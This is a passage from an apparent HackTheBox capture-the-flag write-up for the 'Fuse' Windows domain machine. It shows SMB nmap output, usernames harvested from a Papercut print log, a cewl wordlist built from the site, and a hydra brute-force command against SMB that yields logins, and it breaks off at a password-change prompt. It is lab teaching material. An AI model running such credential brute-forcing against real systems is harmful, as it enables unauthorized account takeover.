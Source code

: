 ```
|_clock-skew: mean: 2h37m01s, deviation: 4h02m30s, median: 17m00s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Fuse
|   NetBIOS computer name: FUSE\x00
|   Domain name: fabricorp.local
|   Forest name: fabricorp.local
|   FQDN: Fuse.fabricorp.local
|_  System time: 2020-06-15T07:41:07-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-06-15T14:41:06
|_  start_date: 2020-06-15T13:46:10

```
This scan took a while to finish, so while it was going, I popped the IP into the browser to see what was going on. We get back an error, showing us the domain we will want to add to our hosts list.

{{< figure src="__GHOST_URL__/content/images/2020/06/image-48.png" >}}

When we add the host we are taken to a Papercut admin page. As we look through the page and the print logs, we can obtain some info, like usernames. We will take these names and compile them into a file called `users.lst`.

Next we try to use a basic `ldapsearch` to enumerate users but we are told we need to create a bind first. It's telling us that we need to be authenticated.

{{< figure src="__GHOST_URL__/content/images/2020/06/image-49.png" >}}

After enumerating the site we really couldn't find much more usful info in terms of credentials. However, a more and more common tactic in HTB CTF's is to use `cewl` to generate a potential wordlist. So let's give that a shot.

Command:
`cewl -d 5 -m 5 -w wordlist.lst http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers`

After generate the file, we end up with a wordlist with 104 entries. We'll toss that into `hydra` and see if we can get a match.

Command:
`hydra -L users.lst -P wordlist.lst 10.10.10.193 smb`

To our surprise, we have more than one successful login:

{{< figure src="__GHOST_URL__/content/images/2020/06/image-50.png" >}}

Now we we try to connect using `smbclient` we are told we need to change our password.

